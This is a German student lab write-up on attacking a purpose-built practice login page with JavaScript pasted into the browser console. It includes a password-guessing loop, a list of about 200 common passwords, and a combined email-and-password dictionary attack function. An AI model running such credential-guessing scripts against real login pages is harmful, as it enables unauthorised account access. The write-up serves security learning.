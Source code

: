 ### Login Hacken mti JavaScript
---
#### Ablauf
- Mit diesem Video habe ich meine Hacker Kompentenzen Aufgebaut. [Video](https://www.youtube.com/watch?v=PvUArQNe3LA)
  <br>
- Damit wir das Gelernte umsetzen können, versuchen wir auf einer Website, die genau für Passwort und E-Mail Hecken Programmiert wurde, all diese Codes aus: [Website](https://junusergin.github.io/hackme-part2/login.html)
  <br>
- Die benötigten Ressourcen um zu hacken, finde ich auf diesem Repository. [Github](https://github.com/JunusErgin/hackme-part2)

<br>


 ---

#### Mein Vorgehen
  1. Ich schaute das Video und probierte selber aus. Dazu habe ich mir einige Notizen gemacht. Mir wurde beigebracht wie ein Hacker denkt und was es für möglichkeiten gibt ein Passwort zu hacken, wie z.B die schnelle und die langsamere (aufwendigere) Art funktioniert.

  <br>
     - Die schnelle variante wäre sich eine Liste mit höffig benutzten Passwörter zu kopieren und mit einer Funktion schnell ausführen zu können.
  <br>

  **Funktion:**

~~~ javascript
let index = 1;
function tryCombinations(combinations) {
    console.log('Trying Password', combinations[index]);
    password.type = 'text';
    password.value = combinations[index];
    loginButton.click();
    index++;
    if (index < combinations.length) {
        setTimeout(tryCombinations, 500, combinations);
    }
}

~~~

**Passwörter:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**Der Ausführung befehl**

~~~ javascript
tryCombinations(dictionary)
~~~

<br>

  - Die langsame Art wäre jede einezelne Kompination von ein stelligen Zahlen/Buchstaben aufzuschreiben und ausprobieren. Die sogenannte 

**Brute Force**.

![Bruteforce](https://gitlab.com/simonstreuli/m231-auftrag-markdown/-/blob/main/images/bruteforce.jpg)

<br>

**Das alles kann ich mit Rechtsklick dann auf Untersuchen und auf das Feld aufdem Konsole steht selber einfügen und ausprobieren!**
1. Jetzt gibt es noch ein Login, die eine E-Mail benötigt. Um an die E-Mail drann zu kommen gehe ich auf [Github](https://github.com/JunusErgin/hackme-part2). Der Vorgang bleibt ähnlich wie beim Passwort hacken, nur das die Funktion anderst ist. Zuerst kommen die Passwörter, danach die E-Mails und zuletzt die Funktion mit dem Ausführendem Befehl. **Eine E-Mail wird mit allen Passwörter getestet.**

**Passwörter:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**E-Mails**

~~~Javascript
let emails = [
    'albert.einstein@hacker-email.com',
    'grace.hopper@hacker-email.com',
    'marie.curie@hacker-email.com',
    'konrad.zuse@hacker-email.com',
    'stephanie-kwolek@hacker-email.com',
    'carl-friedrich.gauss@hacker-email.com',
    'shirley-ann.jackson@hacker-email.com',
    'gertrude-belle.elion@hacker-email.com',
    'steve.wozniak@hacker-email.com',
    'rudolf.bayer@hacker-email.com',
    'ada.lovelace@hacker-email.com'
];
~~~

**Funktion**

~~~Javascript
function emailDictionaryAttack(i, j) { // i = 0; j = 0
    console.log('Testing', emails[i], dictionary[j]);
    password.type = 'text';
    username.value = emails[i];
    password.value = dictionary[j];
    loginButton.click();
    j++;
    if (j >= dictionary.length) {
        i++;
        j = 0;
    }
    if (i < emails.length || j < dictionary.length) {
        setTimeout(emailDictionaryAttack, 20, i, j);
    }
}
~~~

**Der Ausführ Befehl**

~~~Javascript
emailDictionaryAttack(0, 0)
~~~

<br>

**Das alles kann ich mit Rechtsklick dann auf Untersuchen und auf das Feld aufdem Konsole steht selber einfügen und ausprobieren!**
